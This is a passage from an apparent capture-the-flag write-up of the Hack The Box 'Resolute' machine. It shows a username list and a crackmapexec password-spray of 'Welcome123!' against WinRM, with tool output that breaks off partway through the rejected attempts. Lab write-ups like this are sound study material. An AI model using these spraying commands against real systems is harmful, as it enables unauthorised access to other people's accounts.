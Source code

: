 I tried login with them using `Evil-WinRm`and its end failed[br/](br/)
![Untitled](/img/htb-resolute/Untitled%201.png)

Since Enum4Linux reveals more user names, we can password spray on them using `crackmapexec`

I created an username list first
```bash
root@w0lf:~/CTF/HTB/Boxes/Resolute# cat usernames.txt 
abigail
Administrator
angela
annette
annika
claire
claude
felicia
fred
Guest
gustavo
marcus
marko
melanie
naoki
paulo
per
ryan
sally
steve
sunita
ulf
zach
```

Started password spraying on the `winrm`[br/](br/)
```bash
root@w0lf:~/CTF/HTB/Boxes/Resolute# crackmapexec winrm 10.10.10.169 -u usernames.txt -p 'Welcome123!'
WINRM       10.10.10.169    5985   NONE             [*] http://10.10.10.169:5985/wsman
WINRM       10.10.10.169    5985   NONE             [-] None\abigail:Welcome123! "the specified credentials were rejected by the server"
WINRM       10.10.10.169    5985   NONE             [-] None\Administrator:Welcome123! "the specified credentials were rejected by the server"
WINRM       10.10.10.169    5985   NONE             [-] None\angela:Welcome123! "the specified credentials were rejected by the server"
WINRM       10.10.10.169    5985   NONE             [-] None\annette:Welcome123! "the specified credentials were rejected by the server"
WINRM       10.10.10.169    5985   NONE             [-] None\annika:Welcome123! "the specified credentials were rejected by the server"
WINRM       10.10.10.169    5985   NONE             [-] None\claire:Welcome123! "the specified credentials were rejected by the server"
WINRM       10.10.10.169    5985   NONE             [-] None\claude:Welcome123! "the specified credentials were rejected by the server"
WINRM       10.10.10.169    5985   NONE             [-] None\felicia:Welcome123! "the specified credentials were rejected by the server"
WINRM       10.10.10.169    5985   NONE             [-] None\fred:Welcome123! "the specified credentials were rejected by the server"
WINRM       10.10.10.169    5985   NONE             [-] None\Guest:Welcome123! "the specified credentials were rejected by the server"
WINRM       10.10.10.169    5985   NONE             [-] None\gustavo:Welcome123! "the specified credentials were rejected by the server"
WINRM       10.10.10.169    5985   NONE             [-] None\marcus:Welcome123! "the specified credentials were rejected by the server"
WINRM       10.10.10.169    5985   NONE             [-] None\marko:Welcome123! "the specified credentials were rejected by the server"
```